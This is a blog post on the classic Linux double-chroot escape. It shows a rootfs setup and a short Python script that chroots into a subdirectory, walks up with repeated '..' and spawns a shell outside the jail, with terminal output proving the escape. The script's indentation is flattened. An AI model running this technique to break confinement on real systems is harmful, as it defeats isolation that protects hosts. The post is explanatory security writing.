 ```yaml
---
layout: post
title: "The anatomy of chroot escape"
description: "chroot escape"
category: 技术
tags: [技术]
---
```

{% include JB/setup %}


Recently I have read the old chroot escape methods in Linux. Using two chroot syscall can escape a chroot environment.  I found there is no detailed article describing how it works underneath so I just write this post.


<h3> Reproduce </h3>

This part shows how we can escape the chroot environment. First let's create a rootfs.



                root@test-VirtualBox:/tmp# mkdir chroottest
                root@test-VirtualBox:/tmp# cd  chroottest/
                root@test-VirtualBox:/tmp/chroottest# ls
                root@test-VirtualBox:/tmp/chroottest# mkdir usr
                root@test-VirtualBox:/tmp/chroottest# mount --bind /usr usr
                root@test-VirtualBox:/tmp/chroottest# ln -s usr/lib lib
                root@test-VirtualBox:/tmp/chroottest# ln -s usr/lib64 lib64
                root@test-VirtualBox:/tmp/chroottest# ln -s usr/bin bin
                root@test-VirtualBox:/tmp/chroottest# chroot .
                bash-5.0# ls /
                bin  lib  lib64  usr
                bash-5.0# exit
                exit
                root@test-VirtualBox:/tmp/chroottest# 



Create a test.py file in this rootfs.


                import os
                if not os.path.exists("chroot"):
                os.mkdir("chroot")
                os.chroot("chroot")
                os.chdir("../../../../../../..")
                os.chroot(".")
                os.system("/bin/sh")



Execute this test.py in the chroot environment. Then we can see we have escaped from the chroot environment.



                root@test-VirtualBox:/tmp/chroottest# ls
                bin  lib  lib64  test.py  usr
                root@test-VirtualBox:/tmp/chroottest# chroot .
                bash-5.0# ls /
                bin  lib  lib64  test.py  usr
                bash-5.0# python3 /test.py
                # ls /
                bin   cdrom  etc   lib          lib64   lost+found  mnt  proc  run   snap  swapfile  test  usr
                boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   sys       tmp   var
